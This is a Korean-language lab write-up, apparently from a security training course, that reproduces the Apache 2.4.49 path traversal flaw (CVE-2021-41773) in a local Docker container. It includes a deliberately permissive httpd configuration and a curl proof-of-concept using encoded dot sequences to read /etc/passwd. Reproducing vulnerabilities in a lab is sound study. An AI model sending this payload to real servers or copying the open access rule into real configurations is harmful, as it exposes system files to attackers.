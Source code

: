# Apache HTTP Server Path Traversal (CVE-2021-41773)  
화이트햇 스쿨 3기 – 조민규 (@oureukk)

---

## 요약
- Apache HTTP Server 2.4.49 버전의 `mod_cgi` 경로 검증 로직에 결함이 있어, URL 인코딩된 `..` 시퀀스를 통해 문서 루트 밖의 임의 파일을 읽을 수 있음.  
- 공격자는 `/etc/passwd` 같은 시스템 파일은 물론, 웹 서버가 읽을 수 있는 모든 파일을 노출시킬 수 있음.  

---

## 환경 구성 및 실행

1. **Dockerfile 작성**  
   `Dockerfile`:
   ```dockerfile
   FROM httpd:2.4.49

   # bash 및 기타 유틸 설치
   RUN apt-get update && apt-get install -y bash

   # 간단한 CGI 스크립트 생성
   RUN printf '%s\n' '#!/bin/bash' 'echo "Content-type: text/plain"' 'echo' 'echo "Hello from CGI"' \
       > /usr/local/apache2/cgi-bin/hello.sh \
     && chmod +x /usr/local/apache2/cgi-bin/hello.sh

   #루트파일도 읽히도록 액세스 제어 변경
   RUN printf '%s\n' \
    '<Directory "/">' \
      '    Require all granted' \
    '</Directory>' \
    >> /usr/local/apache2/conf/httpd.conf
  '''
  
2. docker-compose.yml 작성  
   **docker-compose.yml**:  
   ```yaml
   version: "3.8"
   services:
     apache-vuln:
       build: .
       ports:
         - "8080:80"

3. 컨테이너 빌드 및 실행
   '''bash
   docker-compose up -d
   '''

4. 정상 동작 확인
   '''bash
   curl -i http://localhost:8080/cgi-bin/hello.sh
   '''
   
5. 취약점 Poc 호출
   '''bash
   curl -i "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
   '''
   
---

## 결과
![image](https://github.com/user-attachments/assets/8241770b-6b3f-45b4-b8df-9ddbf5f97b4a)

---

## 정리
- 취약 원인: Apache 2.4.49에서 URL 디코딩 후 경로 검증을 우회할 수 있어, .. 인코딩 시퀀스를 통해 문서 루트를 넘어선 파일 액세스가 허용됨.

- 영향도: 웹 서버가 읽을 수 있는 모든 시스템 파일 및 애플리케이션 파일 정보 노출 → 정보 유출, 내부 구조 파악, 추가 공격 발판 제공

---
